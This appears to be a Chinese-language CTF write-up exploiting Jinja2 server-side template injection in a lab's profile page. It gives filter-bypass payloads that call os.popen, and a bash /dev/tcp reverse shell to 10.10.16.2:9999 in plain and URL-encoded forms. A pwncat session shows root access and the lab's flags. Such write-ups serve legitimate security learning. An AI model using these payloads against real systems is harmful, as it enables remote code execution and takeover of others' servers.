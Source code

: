 ```plaintext
http://10.13.37.14/profile?name={{7*7}}
```

然后正常的发送邮件，即可收到

```plaintext
Incoming connection from ('10.13.37.14', 58560)
Peer: ('10.13.37.14', 58560)
Data: b'ehlo [172.22.0.2]'
Data: b'mail FROM:<no-reply@faradaysec.com>'
===> MAIL FROM:<no-reply@faradaysec.com>
sender: no-reply@faradaysec.com
Data: b'rcpt TO:<pastaflora@faradaysec.com>'
===> RCPT TO:<pastaflora@faradaysec.com>
recips: ['pastaflora@faradaysec.com']
Data: b'data'
Data: b'Subject: a\r\n\r\nAn event was reported at 7*7}}:\r\na\r\nHere is your gift FARADAY{ehlo_@nd_w3lcom3!}'
---------- MESSAGE FOLLOWS ----------
b'Subject: a'
b'X-Peer: 10.13.37.14'
b''
b'An event was reported at 7*7}}:'
b'a'
b'Here is your gift FARADAY{ehlo_@nd_w3lcom3!}'
------------ END MESSAGE ------------
Data: b'quit'
```

但是就会遇到一个问题，疑似 `{{` 双大括号被过滤了，尝试进行绕过

```plaintext
# {% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('ls /').read()")}}{% endif %}{% endfor %}
c.__init__.__globals__[\'__builtins__\'].eval("__import__(\'os\').popen(\'ls /\').read()")}}:'
```

看样子还有一点过滤，继续改进 payload

```plaintext
{% if request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('bash -c"bash -i >& /dev/tcp/10.10.16.2/9999 0>&1"')['read']() =='chiv' %} a {% endif %}
```

对于使用 http GET 进行传输，进行一定的编码

```plaintext
{%25+if+request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('bash+-c+"bash+-i+>%26+/dev/tcp/10.10.16.2/9999+0>%261"')['read']()+%3d%3d+'chiv'+%25}+a+{%25+endif+%25}
```

成功在侦听器上收到回连的 shell

```bash
┌──(randark ㉿ kali)-[~]
└─$ pwncat-cs -lp 9999
[18:35:40] Welcome to pwncat 🐈!
[18:44:52] received connection from 10.13.37.14:51520
[18:45:01] 10.13.37.14:51520: registered new host w/ db
(local) pwncat$ back
(remote) root@98aa0f47eb96:/app# whoami
root
(remote) root@98aa0f47eb96:/app# cat flag.txt
FARADAY{7x7_1s_n0t_@lw4ys_49}
```
